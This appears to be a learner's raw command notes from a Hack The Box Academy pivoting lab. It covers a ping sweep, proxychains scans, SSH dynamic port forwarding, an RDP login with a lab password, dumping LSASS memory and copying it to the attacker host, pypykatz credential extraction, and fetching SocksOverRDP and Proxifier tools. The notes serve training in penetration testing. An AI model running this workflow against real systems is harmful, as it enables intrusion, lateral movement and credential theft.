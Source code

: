run post/multi/gather/ping_sweep RHOSTS=172.16.5.35

[*] Performing ping sweep for IP range 172.16.5.35
[+] 	172.16.5.35 host found

proxychains nmap 172.16.5.35 -p3389 -sT -v -Pn
nmap -sV -sC $TARGET -p3389 --script rdp*



PORT     STATE  SERVICE
3389/tcp closed ms-wbt-server

-> FAILED



DYNAMIC PORT FORWARDING :

vi /home/htb-ac-786011/id_rsa
chmod 600 /home/htb-ac-786011/id_rsa
ssh -D 9050 -i /home/htb-ac-786011/id_rsa webadmin@$TARGET
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:"Plain Human work!" /drive:linux,/home/ /dynamic-resolution


proxychains nmap -v -sn 172.16.5.35 -p3389 -sT -v -Pn

proxychains msfconsole
search rdp_scanner
auxiliary(scanner/rdp/rdp_scanner) > set rhosts 172.16.5.35
run

[*] 172.16.5.35:3389      - Detected RDP on 172.16.5.35:3389      (name:PIVOT-SRV01) (domain:INLANEFREIGHT) (domain_fqdn:INLANEFREIGHT.LOCAL) (server_fqdn:PIVOT-SRV01.INLANEFREIGHT.LOCAL) (os_version:10.0.17763) (Requires NLA: Yes)

proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:"Plain Human work!" /drive:linux,/home/ /dynamic-resolution

Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file

-> C:\Users\mlefay\AppData\Local\Temp\lsass.DMP

Copy/Paste lsass.DMP to \\tsclient\linux\htb-ac-786011

pypykatz lsa minidump lsass.DMP

wget https://github.com/nccgroup/SocksOverRDP/releases/download/v1.0/SocksOverRDP-x64.zip
unzip SocksOverRDP-x64.zip 
Archive:  SocksOverRDP-x64.zip
  inflating: SocksOverRDP-Plugin.dll  
  inflating: SocksOverRDP-Server.exe  


wget https://www.proxifier.com/download/ProxifierPE.zip
unzip ProxifierPE.zip 
Archive:  ProxifierPE.zip
   creating: Proxifier PE/
  inflating: Proxifier PE/Helper64.exe  
  inflating: Proxifier PE/Proxifier.exe  
  inflating: Proxifier PE/ProxyChecker.exe  
  inflating: Proxifier PE/PrxDrvPE.dll  
  inflating: Proxifier PE/PrxDrvPE64.dll

